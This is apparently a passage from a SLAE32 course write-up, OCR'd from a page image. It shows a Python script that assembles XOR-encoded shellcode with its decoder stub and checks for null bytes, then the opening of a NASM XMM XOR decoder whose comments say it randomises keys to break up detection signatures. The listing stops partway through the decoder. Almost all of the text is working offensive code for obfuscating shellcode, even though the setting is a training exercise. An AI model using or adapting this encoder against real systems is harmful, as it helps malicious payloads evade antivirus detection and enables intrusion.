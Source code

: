 ```python
#So now we have all the important parts
#So lets construct the entire shellcode, including the decoder and the encoded shellcode
# I wanted to break up the lines so I did it by labeled section...
mainPayload="\\xeb\\x0d"  \
            +"\\x5e\\x31\\xc9\\xf3\\x0f\\x6f\\x0e\\x66\\x0f\\xef\\xdb\\xeb\\x15"\
            +"\\xe8\\xee\\xff\\xff\\xff"\
            +xorKeyString \
            +"\\xeb\\x2f"\
            +"\\x5e\\x89\\xf2"\
            +"\\xf3\\x0f\\x6f\\x06\\x66\\x0f\\xef\\xc1\\xf3\\x0f\\x7f\\x06\\xc4\\xe2\\x79\\x17\\xd8\\x73\\x02\\xff\\xe2"\
            +"\\xf3\\x0f\\x6f\\xd1\\x66\\x0f\\x73\\xf9"\
            + shiftString\
            +"\\x66\\x0f\\x73\\xda"\
            + remainderString\
            +"\\x66\\x0f\\xeb\\xca\\x83\\xc6\\x10\\xeb\\xd4"\
            +"\\xe8\\xcc\\xff\\xff\\xff"\
            +encodedPayload+currentKey

# Would be better to automatically select another key, but I didn't do that.
if "00" in mainPayload:
   print("It contains a null! Try again...")
   exit()

print(mainPayload)

```

That's it for the encoder script. I will show proper usage of it below after we describe the xmm xor decoder.

```nasm
; Title: XMM decoder shellcode
; Filename: xmm_xor_decoder.nasm
; Author:  Mark Shaneck
; Website:  http://markshaneck.com
;
; A more detailed description of this code can be found at
; http://markshaneck.com/SLAE32/slae32-assignment4
;
; Purpose: Decode shellcode that has been encoded through
; an xor with a 128 bit value that gets rotated left by
; a particular amount. This code is not intended to be
; used directly but as a way to create a template for
; the associated python script to autogenerate it, since
; the xor key and the shift amount will be randomized for
; each run

global _start

section .text
_start:
    jmp get_keys

got_keys:
    pop esi            ; esi contains the address of the xor key
    xor ecx,ecx
    movdqu xmm1, [esi] ; put the xor key into xmm1
    pxor xmm3,xmm3     ; put a zero in xmm3 for end point check
    jmp short move_on

; put the data in the middle to break up the signature somewhat, since
; the 128 bit xorkey will be random each time
get_keys:
```